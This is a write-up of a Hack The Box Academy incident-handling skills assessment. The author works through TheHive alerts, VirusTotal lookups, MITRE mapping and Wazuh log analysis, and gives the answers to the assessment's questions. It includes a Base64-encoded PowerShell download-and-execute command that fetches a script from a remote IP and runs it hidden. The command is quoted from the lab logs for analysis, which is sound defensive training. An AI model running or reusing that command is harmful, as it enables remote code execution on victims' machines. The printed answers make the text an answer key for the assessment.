# Hack The Box Academy - Incident Handling Process | Write-up

> **Platform:** Hack The Box Academy &nbsp;•&nbsp; **Category:** Incident Handling / SOC &nbsp;•&nbsp; **Type:** Skills Assessment
>
> **Author:** Jithin Jelson

---

## Introduction

This write-up documents the work I did in the Incident Handling Process skills assessment in HackTheBox Academy. This exercise required me to take on the role of a junior incident responder investigating a simulated breach referred to as Insights Nexus. The incident is built around TheHive, a case management platform used by SOC analysts to triage alerts, correlate evidence, and document findings, alongside supporting log data from Wazuh and open source threat intelligence lookups via VirusTotal.

The goal of this exercise was to practice a realistic end-to-end IR workflow:

- Creating a case in TheHive and linking related alerts together
- Triaging, enriching, and correlating evidence found in alert notes
- Validating indicators of compromise (IOCs) using external threat intelligence sources
- Mapping observed attacker behaviour to the Cyber Kill Chain and MITRE ATT&CK framework
- Analysing raw event logs to decode obfuscated commands and identify the responsible user account

- **TheHive accessed at:** `10.129.7.175:9000`
- **Credentials provided:** `htb-analyst / P3n#31337@LOG`

We can access TheHive with the IP address provided and enter the credentials given to us.


*Figure 1 - TheHive login page*

---

## Alert enrichment: ManageEngine Admin Login

> Open the alert "[InsightNexus] Admin Login via ManageEngine Web Console." Find the foreign IP address starting with "203" in the comments. Check VirusTotal for the information related to this IP address, and add the details as a comment in this alert. In VirusTotal, what is the name of the file starting with "Mango" in the Files Referring section?

**Answer:** `MangoJava.exe`

First I navigated to the alert given to us.


*Figure 2 - The ManageEngine admin login alert*

We can now look for the foreign IP address the question provides that starts with 203. I have highlighted it down below.


*Figure 3 - Foreign IP address starting with 203 in the comments*

Now this question asks us to put this IP address on VirusTotal and find the name of the file starting with "Mango" in the Files Referring section. We have the file MangoJava.exe.


*Figure 4 - MangoJava.exe in the VirusTotal Files Referring section*

Additionally we have also been asked to add the details as a comment. So we can do that by adding a new comment.


*Figure 5 - Adding the details as a new comment*

---

## VirusTotal Whois: IP starting with 198

> In VirusTotal, go to the details of the IP address starting with "198." What is the name of the city shown in the Whois Lookup?

**Answer:** `Los Angeles`

We can find the IP address that starts with 198 below.


*Figure 6 - IP address starting with 198*

We can put this on VirusTotal and find the Whois lookup for it. And we can see the address provided by the Whois lookup.


*Figure 7 - Whois lookup showing the city of Los Angeles*

---

## MITRE technique: C2 tool transfer

> If malware downloads files from a C2 (Command and Control) server into the victim network, under what MITRE technique ID does this tool transfer technique fall? Type it as your answer. The format is T1***.

**Answer:** `T1105`

For this question I navigated towards the MITRE ATT&CK framework and navigated to the Command and Control section to find the relevant MITRE technique. This transfer technique falls under Ingress Tool Transfer and we can get the ID by hovering over it.


*Figure 8 - Ingress Tool Transfer (T1105) in the MITRE ATT&CK framework*

---

## MITRE technique: Rule 92153 (VaultCli.dll)

> Open TheHive and check the rule ID 92153 related to the VaultCli.dll module. What is the MITRE technique ID for this activity? The format is T1***.

**Answer:** `T1555`

Now we've been tasked with finding the MITRE technique ID for a specific rule.


*Figure 9 - Rule ID 92153 related to the VaultCli.dll module*

We can then find the rule ID in the rule.mitre.id section.


*Figure 10 - The MITRE technique ID T1555 in the rule.mitre.id section*

---

## Wazuh logs: decoding the PowerShell command

> Download the "logs-wazuh.zip" file from resources, and identify the suspicious PowerShell command in the logs. Type the suspicious IP address after decoding the command.

When we analyse the file, there is only one clear suspicious PowerShell command in the logs, we can see this down below.


*Figure 11 - The suspicious PowerShell command in the Wazuh logs*

From previous work we can identify that this is Base64, we can run a simple script to decode this.

```
SUVYIChOZXctT2JqZWN0IFN5c3RlbS5OZXQuV2ViQ2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cDovLzE5OC41MS4xMDAuMjQvZGVmZW5kZXIvZGVwbG95LWRlZmluaXRpb25zLnBzMScpOyBTdGFydC1Qcm9jZXNzIHBvd2Vyc2hlbGwgLUFyZ3VtZW50TGlzdCAnLU5vUHJvZmlsZSAtV2luZG93U3R5bGUgSGlkZGVuIC1GaWxlIEM6XFdpbmRvd3NcVGVtcFxkZXBsb3ktZGVmaW5pdGlvbnMucHMxJw
```


*Figure 12 - The decoded command revealing the suspicious IP address*

And we can see the IP address.

---

## Wazuh logs: identifying the user

> In the same file (i.e., logs-wazuh.zip), identify the user who executed the suspicious PowerShell command. The format is domain\user.

**Answer:** `CORP\svc-update`

Underneath the Base64 command we can find the user that is responsible.


*Figure 13 - The user account that executed the command*

We just now have to convert this into the format requested to us.
